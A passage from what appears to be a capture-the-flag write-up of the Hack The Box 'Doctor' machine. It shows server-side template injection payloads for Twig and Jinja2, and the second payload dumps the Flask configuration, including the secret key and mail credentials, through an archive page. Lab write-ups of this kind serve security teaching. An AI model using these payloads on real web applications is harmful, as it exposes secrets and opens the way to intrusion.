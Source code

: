 ```python
{{ "{{ dump(app) " }}}}
```

This results into following response on /archive:

![Server error](/assets/htb/Doctor/http/ssti/500-error.png)

Seems like we did cause some error on the server with this payload. Let us try a Jinja2 payload next:

```python
{{ "{{ config.items() " }}}}
```

As a response we get following data:

```python
<?xml version="1.0" encoding="UTF-8" ?>
	<rss version="2.0">
	<channel>
 	<title>Archive</title>
 	<item><title>dict_items([('ENV', 'production'), ('DEBUG', False), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('PRESERVE_CONTEXT_ON_EXCEPTION', None), ('SECRET_KEY', '1234'), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', False), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', datetime.timedelta(seconds=43200)), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('JSON_AS_ASCII', True), ('JSON_SORT_KEYS', True), ('JSONIFY_PRETTYPRINT_REGULAR', False), ('JSONIFY_MIMETYPE', 'application/json'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093), ('MAIL_PASSWORD', 'doctor'), ('MAIL_PORT', 587), ('MAIL_SERVER', ''), ('MAIL_USERNAME', 'doctor'), ('MAIL_USE_TLS', True), ('SQLALCHEMY_DATABASE_URI', 'sqlite://///home/web/blog/flaskblog/site.db'), ('WTF_CSRF_CHECK_DEFAULT', False), ('SQLALCHEMY_BINDS', None), ('SQLALCHEMY_NATIVE_UNICODE', None), ('SQLALCHEMY_ECHO', False), ('SQLALCHEMY_RECORD_QUERIES', None), ('SQLALCHEMY_POOL_SIZE', None), ('SQLALCHEMY_POOL_TIMEOUT', None), ('SQLALCHEMY_POOL_RECYCLE', None), ('SQLALCHEMY_MAX_OVERFLOW', None), ('SQLALCHEMY_COMMIT_ON_TEARDOWN', False), ('SQLALCHEMY_TRACK_MODIFICATIONS', None), ('SQLALCHEMY_ENGINE_OPTIONS', {})])</title></item>

			</channel>
```

